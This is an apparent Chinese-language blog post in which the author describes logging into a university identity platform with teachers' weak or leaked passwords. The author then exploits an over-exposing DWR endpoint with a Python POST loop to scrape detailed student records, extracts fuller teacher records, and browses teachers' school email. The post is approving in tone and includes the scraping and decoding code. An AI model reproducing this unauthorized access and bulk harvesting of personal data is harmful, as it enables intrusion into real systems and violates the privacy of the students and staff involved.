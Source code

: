 ```yaml
---
layout: post
title: Crawl From Little II
categories: 学习数据挖掘的路上
tags: 学习笔记 抓取数据
---
```

#### 接上回那个勉强算得上或算不上抓取的回忆，但是那些数据之中有一些很敏感的信息，包括教师的详细信息，利用这个信息登陆统一身份验证平台，想必又会有收货呢

### 登陆统一身份验证平台
在登陆的过程中，发现女老师对密码安全基本是没什么意识的，虽然你们也是计算机学院的，但是你们真的好意思说你们是计算机学员的吗？
在登陆进去，发现老师可以查询学生的信息（仅包含姓名学号，班级），看了看挺失望的，毕竟这些信息没什么鸟用，但是当我看网页源码的时候，发现这个系统的开发人员很不负责，只是把之前写的文本框给遮盖了，但是还是靠那个传数据。于是抓包分析，发现是post request payload，response的结果却是student的详细信息(一应俱全，应有尽有),好呗
不得不说，很激动，抓呗。

<pre><code>#-*-coding:utf-8-*-
import requests
import urllib2
import urllib
import encodings

url = ""
header={}
def xs(request_payload):
	request = urllib2.Request(url, headers=headers, data=urllib.urlencode(request_payload))
	response = urllib2.urlopen(request, timeout=5)
	content = response.read()
	print(content)

for i in range(1,70):
	m_request_payload = {
	'callCount':'1',
	'httpSessionId':'ssssssssssssssssssssssssss',
	'scriptSessionId':'sssssssssssssssssssssssss',
	'page':'/xxxxx/xxxxx/171',
	'c0-scriptName':'XSXXDwrAction',
	'c0-methodName':'getList',
	'c0-id':'165116513216516',
	'c0-param0':'number:'+ str(i),
	'c0-param1':'null:null',
	'c0-param2':'null:null',
	'c0-param3':'string:',
	'c0-param4':'number:15'
}
xs(m_request_payload)
	
</code></pre>

当然这还没有解码，数据获取的类型是
![img5](../image/crawl/5.png)
<pre><code>
import  re
pattern = r'"(.*?)"'
with open('IDinfomation','r') as f:
    key = re.findall(pattern,f.read())
    for peopele in key:
    tt=peopele.decode('raw_unicode_escape').encode('utf-8')
</code></pre>
最后稍微提取一下就能得到详细的信息了，全是你想要的，如果在内网中，还可以通过统一身份平台跳到教务系统，然后把这些人的图片爬下来，哈哈，想想都有点激动呢。

然后晚上的时候，登一个账号发现里面的通讯录的response也是很奇怪，把老师的详细信息都response了，稍微改下post,于是所有的老师更加详细的信息到手。而且没事还挑了几个老师的学校邮箱看了看，不过并没有什么有用的。
本来想做个统计，绘个图表，结果发现统一信息门户里面都已经给了可视化的图，虽然很丑。不过我现在数据并未完全组织好，也没插入到数据库，电脑估计是要重装了。之前折腾的有问题了。

最后，老师来查mac地址，希望没事吧。虽然这个没有什么技术含量，但是还是很有动力的。



